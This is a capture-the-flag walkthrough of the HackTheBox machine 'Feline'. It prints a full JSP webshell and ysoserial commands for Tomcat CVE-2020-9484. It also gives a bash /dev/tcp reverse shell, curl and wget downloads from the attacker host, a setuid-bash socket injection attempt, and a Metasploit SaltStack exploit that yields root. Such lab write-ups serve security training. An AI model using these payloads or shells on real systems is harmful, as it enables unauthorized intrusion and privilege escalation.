








# HTB - Feline

## Overview



Short description to include any strange things to be dealt with - Hard Linux

## Useful Skills and Tools

#### Useful thing 1

* description with generic example

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.205`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ nmap -sCV -n -p- -v 10.10.10.205 -oA feline    
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-13 11:49 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating Ping Scan at 11:49
Scanning 10.10.10.205 [2 ports]
Completed Ping Scan at 11:49, 0.07s elapsed (1 total hosts)
Initiating Connect Scan at 11:49
Scanning 10.10.10.205 [65535 ports]
Discovered open port 22/tcp on 10.10.10.205
Discovered open port 8080/tcp on 10.10.10.205
Completed Connect Scan at 11:49, 21.39s elapsed (65535 total ports)
Initiating Service scan at 11:49
Scanning 2 services on 10.10.10.205
Completed Service scan at 11:49, 6.49s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.205.
Initiating NSE at 11:49
Completed NSE at 11:49, 1.38s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.18s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.01s elapsed
Nmap scan report for 10.10.10.205
Host is up (0.067s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.91 seconds
```

only two ports open, 22- SSH and 8080 - HTTP



HTTP had a website, VirusBucket for uploading and testing files for malware.



Uploaded php shell, but got `File Upload Error`



```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

next tried uploading a `cmd.jsp` simple webshell from [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp) 



and got a success message



renaming the files uploaded fixed the invalid filename error, filenames cannot have `-` or `_` in them...

### CVE-2020-9484

Googling the version of apache `Apache Tomcat 9.0.27` and file upload leads to pages that give instructions for deploying a web app through a `.war` file



```text
<div id="error">
org.apache.commons.fileupload.FileUploadBase$IOFileUploadException: Processing of multipart/form-data request failed. /opt/tomcat/temp/upload_d4070743_9738_4ba0_94f9_f5544ed1c26d_00000027.tmp (Permission denied)
    at org.apache.commons.fileupload.FileUploadBase.parseRequest(FileUploadBase.java:351)
    at org.apache.commons.fileupload.servlet.ServletFileUpload.parseRequest(ServletFileUpload.java:115)
    at org.apache.jsp.upload_jsp._jspService(upload_jsp.java:165)
    at org.apache.jasper.runtime.HttpJspBase.service(HttpJspBase.java:70)
    at javax.servlet.http.HttpServlet.service(HttpServlet.java:741)
    at org.apache.jasper.servlet.JspServletWrapper.service(JspServletWrapper.java:476)
    at org.apache.jasper.servlet.JspServlet.serviceJspFile(JspServlet.java:385)
    at org.apache.jasper.servlet.JspServlet.service(JspServlet.java:329)
    at javax.servlet.http.HttpServlet.service(HttpServlet.java:741)
    at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
    at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
    at org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:53)
    at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
    at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
    at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:202)
    at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
    at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:526)
    at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:139)
    at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)
    at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:678)
    at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:74)
    at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:343)
    at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:408)
    at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
    at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:861)
    at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1579)
    at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
    at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
    at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
    at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
    at java.base/java.lang.Thread.run(Thread.java:834)
Caused by: java.io.FileNotFoundException: /opt/tomcat/temp/upload_d4070743_9738_4ba0_94f9_f5544ed1c26d_00000027.tmp (Permission denied)
    at java.base/java.io.FileOutputStream.open0(Native Method)
    at java.base/java.io.FileOutputStream.open(FileOutputStream.java:298)
    at java.base/java.io.FileOutputStream.<init>(FileOutputStream.java:237)
    at java.base/java.io.FileOutputStream.<init>(FileOutputStream.java:187)
    at org.apache.commons.io.output.DeferredFileOutputStream.thresholdReached(DeferredFileOutputStream.java:178)
    at org.apache.commons.io.output.ThresholdingOutputStream.checkThreshold(ThresholdingOutputStream.java:224)
    at org.apache.commons.io.output.ThresholdingOutputStream.write(ThresholdingOutputStream.java:128)
    at org.apache.commons.fileupload.util.Streams.copy(Streams.java:107)
    at org.apache.commons.fileupload.util.Streams.copy(Streams.java:70)
    at org.apache.commons.fileupload.FileUploadBase.parseRequest(FileUploadBase.java:347)
    ... 30 more
</div>
```

Uploading a PNG file made it spit out a very verbose error message. I could see in the output the location the files were being uploaded to: `/opt/tomcat/temp/upload_d4070743_9738_4ba0_94f9_f5544ed1c26d_00000027.tmp`. This gave me a chance to try to execute code if directory traversal was not blocked

according to [https://tomcat.apache.org/tomcat-9.0-doc/changelog.html](https://tomcat.apache.org/tomcat-9.0-doc/changelog.html) 9.0.41 is the newest version, so I thought that perhaps 9.0.27 had vulnerabilities.

* [https://tomcat.apache.org/security-9.html\#Fixed\_in\_Apache\_Tomcat\_9.0.29](https://tomcat.apache.org/security-9.html#Fixed_in_Apache_Tomcat_9.0.29)


Found a vulnerability that had been fixed in version 9.0.35 that sounded very useful for getting remote code execution, which was given CVE number CVE-2020-9484.

* [https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
* [https://packetstormsecurity.com/files/157924/Apache-Tomcat-CVE-2020-9484-Proof-Of-Concept.html](https://packetstormsecurity.com/files/157924/Apache-Tomcat-CVE-2020-9484-Proof-Of-Concept.html)

> Apache Tomcat is affected by a Java deserialization vulnerability if the PersistentManager is configured as session manager. Successful exploitation requires the attacker to be able to upload an arbitrary file to the server.

* [https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4](https://medium.com/@romnenko/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4)
* [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

```text
#!/bin/bash

bash -c "bash -I >& /dev/tcp/10.10.15.98/8990 0>&1"
```

Downloaded the latest release of ysoserial and created my simple reverse shell script payload

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'curl http://10.10.15.98:9990/payload.sh -o /dev/shm/payload.sh' > downloadPayload.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Then followed the instructions to use ysoserial to create my malicious session file to deserialize

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'chmod 777 /dev/shm/payload.sh' > chmodPayload.session   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

The next malicious session file was used to give execute permissions to the first payload

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'bash /dev/shm/payload.sh' > executePayload.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

The final malicious session file was used to execute my payload.sh reverse shell

```bash
#!/bin/bash
# exploit.sh
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/downloadPayload' -F 'image=@downloadPayload.session'
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/downloadPayload'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/chmodPayload' -F 'image=@chmodPayload.session'
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/chmodPayload'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/executePayload' -F 'image=@executePayload.session'
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/executePayload'
```

Finally I wrote a script to automate uploading all of these files to the server. Next I ran `python3 -m http.server` so that the final payload could be downloaded, started a netcat listener, and then I ran the script and hoped that everything would work!

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ ./exploit.sh 

File uploaded successfully!


<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
       ...snipped verbose error messages...
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.27</h3></body></html>

File uploaded successfully!


<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
        ...snipped verbose error messages...
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.27</h3></body></html>

File uploaded successfully!


<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
       ...snipped verbose error messages...
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.27</h3></body></html>
```

Each of the files were uploaded successfully, though they each threw a `HTTP Status 500 – Internal Server Error`, probably after deserializing the "session" it expected.

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ python3 -m http.server 9990
Serving HTTP on 0.0.0.0 port 9990 (http://0.0.0.0:9990/) ...
10.10.10.205 - - [13/Dec/2020 15:51:44] "GET /payload.sh HTTP/1.1" 200 -
```

Got a connection to my http.server, sending my payload on its way

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ script
Script started, output log file is 'typescript'.

┌──(zweilos㉿kali)-[~/htb/feline]
└─$ bash                                                                                            1 ⨯
zweilos@kali:~/htb/feline$ nc -lvnp 8991
listening on [any] 8991 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.205] 43900
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@VirusBucket:/opt/tomcat$ ^Z
[1]+  Stopped                 nc -lvnp 8991
zweilos@kali:~/htb/feline$ stty raw -echo
nc -lvnp 8991aa:~/htb/feline$ 

tomcat@VirusBucket:/opt/tomcat$ export TERM=xterm-256color
```

I started logging output with the `script` command, started a bash shell \(since zsh seems to have problems with `stty raw -echo`\), then started my netcat listener. After running my `exploit.sh` I got a shell!

### Enumeration as `tomcat`

```text
Active Internet connections (servers and established)                                                   
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:46579         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4505          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4506          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      1 10.10.10.205:44894      1.1.1.1:53              SYN_SENT    -                   
tcp        0    511 10.10.10.205:43900      10.10.15.98:8991        ESTABLISHED 15461/bash          
tcp        0      0 10.10.10.205:34440      10.10.15.98:8990        CLOSE_WAIT  15048/bash          
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      968/java            
tcp6       0      0 :::8080                 :::*                    LISTEN      968/java            
udp        0      0 127.0.0.1:46744         127.0.0.53:53           ESTABLISHED -                   
udp        0      0 10.10.10.205:59415      1.0.0.1:53              ESTABLISHED -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*
```

Netstat showed that there were a few more ports open internally that I didn't see from my machine. 53, 4505, 4506, 8000, and 8005

```text
tomcat@VirusBucket:/dev/shm$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:2c:51 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.205/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:2c51/64 scope global dynamic mngtmpaddr 
       valid_lft 86146sec preferred_lft 14146sec
    inet6 fe80::250:56ff:feb9:2c51/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:71:f3:01:f7 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:71ff:fef3:1f7/64 scope link 
       valid_lft forever preferred_lft forever
4: br-e9220f64857c: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:85:62:16:4a brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-e9220f64857c
       valid_lft forever preferred_lft forever
6: veth1ec0884@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 96:fe:41:7c:7c:db brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::94fe:41ff:fe7c:7cdb/64 scope link 
       valid_lft forever preferred_lft forever
```

There was a docker container hosted

### user.txt

```text
tomcat@VirusBucket:/dev/shm$ cd ~
tomcat@VirusBucket:~$ cat user.txt 
a26df84070ff88060d77f79a027bed37
tomcat@VirusBucket:~$ ls -la
total 24
drwxr-xr-x 2 root   root   4096 Jun 17 05:14 .
drwxr-xr-x 3 root   root   4096 Jun 17 03:18 ..
lrwxrwxrwx 1 root   root      9 Jun 17 05:14 .bash_history -> /dev/null
-rw-r--r-- 1 tomcat tomcat  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tomcat tomcat 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 tomcat tomcat  807 Feb 25  2020 .profile
-rw-r--r-- 1 root   root     33 Dec 13 16:52 user.txt
tomcat@VirusBucket:~$ cat user.txt 
a26df84070ff88060d77f79a027bed37
```

The user `tomcat` ended up being the user with the `user.txt` flag!

## Path to Power \(Gaining Administrator Access\)

### Further enumeration as `tomcat`

```text
tomcat@VirusBucket:~$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/bash
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

only `tomcat` and `root` could log in with a shell

```text
tomcat@VirusBucket:/dev/shm$ curl --max-time 2 --unix-socket /run/snapd.socket http://index
{"type":"sync","status-code":200,"status":"OK","result":["TBD"]}
```

linpeas.sh showed that the socket `/run/snapd.socket` could be communicated with, so I validated it. Since this socket was owned by root this could be a possible privesc method

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/socket-command-injection](https://book.hacktricks.xyz/linux-unix/privilege-escalation/socket-command-injection)

```text
tomcat@VirusBucket:/dev/shm$ wget http://10.10.15.98:8099/socat
--2020-12-13 21:56:26--  http://10.10.15.98:8099/socat
Connecting to 10.10.15.98:8099... failed: Connection refused.
tomcat@VirusBucket:/dev/shm$ wget http://10.10.15.98:8099/socat
--2020-12-13 21:56:32--  http://10.10.15.98:8099/socat
Connecting to 10.10.15.98:8099... connected.
HTTP request sent, awaiting response... 200 OK
Length: 378384 (370K) [application/octet-stream]
Saving to: ‘socat’

socat               100%[===================>] 369.52K   799KB/s    in 0.5s    ^[[A

2020-12-13 21:56:33 (799 KB/s) - ‘socat’ saved [378384/378384]

tomcat@VirusBucket:/dev/shm$ chmod +x socat
tomcat@VirusBucket:/dev/shm$ echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | ./socat - UNIX-CLIENT:/run/snapd.socket
HTTP/1.1 400 Bad Request
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request
```

This socket did not seem to be vulnerable to this kind of injection

### CVE-2020-16846

Next I looked closer at the ports that were open internally. `SaltStack` uses ports 4505 and 4506 for its Salt master

* [https://docs.saltstack.com/en/getstarted/system/communication.html](https://docs.saltstack.com/en/getstarted/system/communication.html#:~:text=The%20Salt%20master%20uses%20ports%204505%20and%204506%2C,which%20must%20be%20opened%20to%20accept%20incoming%20connections)

> Publisher \(port 4505\) All Salt minions establish a persistent connection to the publisher port where they listen for messages. Commands are sent asynchronously to all connections over this port, which enables commands to be executed over large numbers of systems simultaniously.
>
> Request Server \(port 4506\) Salt minions connect to the request server as needed to send results to the Salt master, and to securely request files and minion-specific data values \(called Salt pillar\). Connections to this port are 1:1 between the Salt master and Salt minion \(not asynchronous\).

I did not see a salt user so it was possible that this might be running as `root`

* [https://us-cert.cisa.gov/ncas/current-activity/2020/05/01/saltstack-patches-critical-vulnerabilities-salt](https://us-cert.cisa.gov/ncas/current-activity/2020/05/01/saltstack-patches-critical-vulnerabilities-salt)
* [https://www.saltstack.com/blog/on-november-3-2020-saltstack-publicly-disclosed-three-new-cves/](https://www.saltstack.com/blog/on-november-3-2020-saltstack-publicly-disclosed-three-new-cves/)

> CVE-2020-16846:
>
> Impact: This CVE affects any users running the Salt API. An unauthenticated user with network access to the Salt API can use shell injections to run code on the Salt-API using the SSH client.

* [https://blog.rapid7.com/2020/11/10/saltstack-pre-authenticated-remote-root-cve-2020-16846-and-cve-2020-25592-what-you-need-to-know/](https://blog.rapid7.com/2020/11/10/saltstack-pre-authenticated-remote-root-cve-2020-16846-and-cve-2020-25592-what-you-need-to-know/)
* [https://attackerkb.com/topics/FrF3udya6o/cve-2020-16846-saltstack-unauthenticated-shell-injection](https://attackerkb.com/topics/FrF3udya6o/cve-2020-16846-saltstack-unauthenticated-shell-injection)

links to metasploit module: [https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/saltstack\_salt\_api\_cmd\_exec.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/saltstack_salt_api_cmd_exec.rb)

This module would require the port to be open from the outside, so I decided to make an SSH tunnel to give it a target to connect to. Unfortunately, `tomcat`'s user folder was owned by root so I could not create a `.ssh` folder to inject my key. Instead, I uploaded chisel and made a tunnel with that.

* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

### Getting a shell

```text
┌──(zweilos㉿kali)-[~/chisel]
└─$ ./chisel server -p 9909 --reverse -v
2020/12/13 17:22:16 server: Reverse tunnelling enabled
2020/12/13 17:22:16 server: Fingerprint HYIDJ4oC82ux+xRH1u1L7oA5PXQuW84xghpdsqO69NA=
2020/12/13 17:22:16 server: Listening on http://0.0.0.0:9909
```

First I created a server on my machine listening for reverse connections

```text
tomcat@VirusBucket:/dev/shm$ wget http://10.10.15.98:8099/chisel
--2020-12-13 22:36:24--  http://10.10.15.98:8099/chisel
Connecting to 10.10.15.98:8099... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3291848 (3.1M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   3.14M  1.32MB/s    in 2.4s    

2020-12-13 22:36:26 (1.32 MB/s) - ‘chisel’ saved [3291848/3291848]

tomcat@VirusBucket:/dev/shm$ ./chisel client 10.10.15.98:9909 R:8000:127.0.0.1:8000
bash: ./chisel: Permission denied
tomcat@VirusBucket:/dev/shm$ chmod +x chisel 
tomcat@VirusBucket:/dev/shm$ ./chisel client 10.10.15.98:9909 R:8000:127.0.0.1:8000
2020/12/13 22:36:41 client: Connecting to ws://10.10.15.98:9909
2020/12/13 22:36:41 client: Connected (Latency 37.60698ms)
```

Then on the victim machine I downloaded chisel, made it executable, then created a reverse connection linking port 8000 on both machines \(this was the port the msfconsole exploit wanted\)

```text
msf6 exploit(linux/http/saltstack_salt_api_cmd_exec) > run

[*] Started reverse SSL handler on 10.10.15.98:9967 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Auth bypass successful.
[*] Executing Unix Command for cmd/unix/reverse_python_ssl
[*] Command shell session 1 opened (10.10.15.98:9967 -> 10.10.10.205:54552) at 2020-12-13 17:29:05 -0500

whoami
root
cat /root/root.txt
cat: /root/root.txt: No such file or directory
ls -la
total 88
drwxr-xr-x   1 root root 4096 Jun 30 12:33 .
drwxr-xr-x   1 root root 4096 Jun 30 12:33 ..
-rwxr-xr-x   1 root root    0 Jun 30 12:33 .dockerenv
drwxr-xr-x   1 root root 4096 Apr 23  2020 bin
